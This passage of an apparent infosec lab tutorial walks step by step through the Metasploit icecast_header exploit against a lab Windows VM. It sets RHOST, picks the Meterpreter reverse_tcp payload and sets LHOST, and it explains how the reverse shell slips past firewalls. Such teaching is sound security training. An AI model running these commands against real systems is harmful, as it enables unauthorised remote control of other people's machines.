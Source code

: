 5.  In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> You can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it should show you all possible options for directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	To get more information about this exploit module, type `info`.

    This module has been rated “great,” meaning it is very effective and reliable.

    Besides providing a better description, the `info` command shows the targets
    that the module is effective against, as well as options to set.

8.	To show available options, type `show options`.

    Notice that some options are "required."

9.	Let’s set the required options.

    First, we’ll set the remote host:

        set rhost <IP address of your Windows VM>

    Type `show options` again to verify that the RHOST variable has been set.

10.	Next, let’s look at available payloads for this exploit:

        show payloads

11.	We have a lot of payload options for this module. We’ll use one of the most
    popular and reliable payloads -- a Meterpreter shell. Type:

        set payload windows/meterpreter/reverse_tcp

    Meterpreter is a shell, like Bash, except it is malware.

    This specific
    payload will open a _reverse TCP connection_, **from** the exploited Windows
    VM back **to** the Kali VM, effectively punching through most external-facing
    firewalls. Often, firewalls defend more fiercely what comes in than what goes
    out. This is why it is important that you are able to reach Kali from Windows,
    and Windows from Kali.

12.	Type `show options` again to see the options that are required for this payload.

13.	Set the "local host" variable to Kali's IP address on the infosec-net adapter.
    To set the local host variable, type

        set lhost <IP address of the Kali machine>

    A `lhost` was likely set for you by default -- but it may be an address for
    an incorrect interface! Make sure this setting is correct.
